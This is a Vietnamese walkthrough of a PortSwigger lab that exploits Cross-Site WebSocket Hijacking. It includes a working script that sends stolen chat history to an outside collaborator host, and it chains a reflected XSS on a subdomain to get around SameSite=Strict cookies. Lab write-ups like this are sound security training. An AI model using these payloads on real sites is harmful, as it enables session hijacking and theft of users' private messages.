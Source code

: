 ![image](https://github.com/user-attachments/assets/e58a53ff-142e-43d1-91c1-47b32feafdcd)

ở challenge này thì chúng ta phải khai thác thông qua `Cross-site WebSocket hijacking`.

Cross-Site WebSocket Hijacking (CSWSH) là một kỹ thuật tấn công bảo mật khai thác cách ứng dụng xử lý các kết nối WebSocket để đánh cắp hoặc thao tác dữ liệu nhạy cảm.

Bạn muốn biết chi tiết thì đọc thêm link tôi gửi phía dưới.

![image](https://github.com/user-attachments/assets/fa62a0b6-13cd-4773-abeb-0272712b6b1a)

Chức năng live chat sử dụng web socket.

![image](https://github.com/user-attachments/assets/cf3112eb-fc48-4b41-94dd-81b53a137041)

![image](https://github.com/user-attachments/assets/2aef2dea-fc5d-44e7-8bcd-31236e39ecff)

Ta có thể thấy được rằng khi sẵn sàng thì client sẽ gửi thông báo "READY" đến server.

Tiến hành tạo 1 payload đơn giản để check lỗi `Cross-site WebSocket hijacking`

```
<script>
    var ws = new WebSocket('wss://0aad005d0351668580bdf483001b0082.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        navigator.sendBeacon('https://yz1lj4w6cbrjx0myil1lppzsljraf43t.oastify.com', event.data);
    };
</script>
```

**Giải thích đơn giản về payload:**

_Khởi tạo WebSocket:_

```
var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
```

Lệnh này tạo một kết nối WebSocket từ client đến server (URL chỉ định đến endpoint /chat của ứng dụng mục tiêu).

_Sự kiện onopen:_

```
ws.onopen = function() {
    ws.send("READY");
};
```

Khi kết nối WebSocket được mở thành công, lệnh ws.send("READY"); sẽ gửi thông báo "READY" đến server. Server sẽ phản hồi với dữ liệu chat history hoặc nội dung đã lưu (ví dụ: lịch sử tin nhắn).

_Sự kiện onmessage:_

```
ws.onmessage = function(event) {
    navigator.sendBeacon('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', event.data);
};
```

Khi server gửi phản hồi qua WebSocket, phản hồi đó sẽ kích hoạt onmessage. Tham số event.data chứa nội dung được server gửi về, ở đây là chat history.

navigator.sendBeacon gửi dữ liệu đến một URL khác (ở đây là https://YOUR-COLLABORATOR-PAYLOAD.oastify.com). Phương thức này đảm bảo dữ liệu sẽ được gửi đi ngay cả khi trang web bị đóng đột ngột.

![image](https://github.com/user-attachments/assets/64980cef-cb05-46fd-9e62-73f6a1ebbcaa)

Sau khi gửi payload thì xác nhận là có bug.

Tiếp theo là vào url này:

```
https://exploit-0af200ce0353f22980cec5a7013c000d.exploit-server.net/exploit
```

Và tiến hành quan sát burp thì ta thấy được 

![image](https://github.com/user-attachments/assets/ffa833ea-aa5f-4731-b75b-05dc5afdf7e2)

Request nó không có gửi cookie đi do có `samesite: strict`.

![image](https://github.com/user-attachments/assets/c2a04818-50fe-490d-bc71-9da17b7c0642)

Sau khi đi hết các ngóc ngách của challenge này thì tôi phát hiện ra tại `/resources/images/shop.svg` có lộ 1 subdomain thông qua `Access-Control-Allow-Origin` (1 cơ chế bảo mật thuộc CORS)

![image](https://github.com/user-attachments/assets/06f118d3-897c-4446-9c63-8f36b31b942b)

Dường như là 1 trang login.

![image](https://github.com/user-attachments/assets/a037c6fa-89dd-4487-9f15-5d41b233d98a)

Thử đăng nhập đại vào thì nó lại báo là `invalid username` và còn in ra màn hình nữa chớ, cùng check thử xem nó có bị html injection không nhé.

![image](https://github.com/user-attachments/assets/df4c8349-91bd-435f-ae9d-96adacf30095)

Nó bị html injection và khi tôi test với tag script thì nó cũng bị xss luôn, nó không sanitizer cái gì hết :">

vậy giờ ta hãy lợi dụng xss ở trang này để thực thi code js ở trang kia. 

Tiến hành tạo 1 payload GET như các challenge trước với mục đích là để lợi dụng các same origin để thực thi payload (bypass samesite: strict).

```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Đó, tại vì đây là url nên phải url encode đoạn script kia :"))

![image](https://github.com/user-attachments/assets/7d9fa1d5-3b75-49a1-94f3-559546f67f22)

![image](https://github.com/user-attachments/assets/b961e8b8-42ed-40c5-9596-80bd336b5c21)

Tiến hành gửi cho con bot.

![image](https://github.com/user-attachments/assets/3b2a29e4-b09d-4ef6-9c3f-772cd1f4f22e)

Vào collaborator thì ta đã lấy được thành công thông tin của đoạn chat này

## REFERENCES
[1]. https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

[2]. https://portswigger.net/web-security/websockets/what-are-websockets#how-are-websocket-connections-established
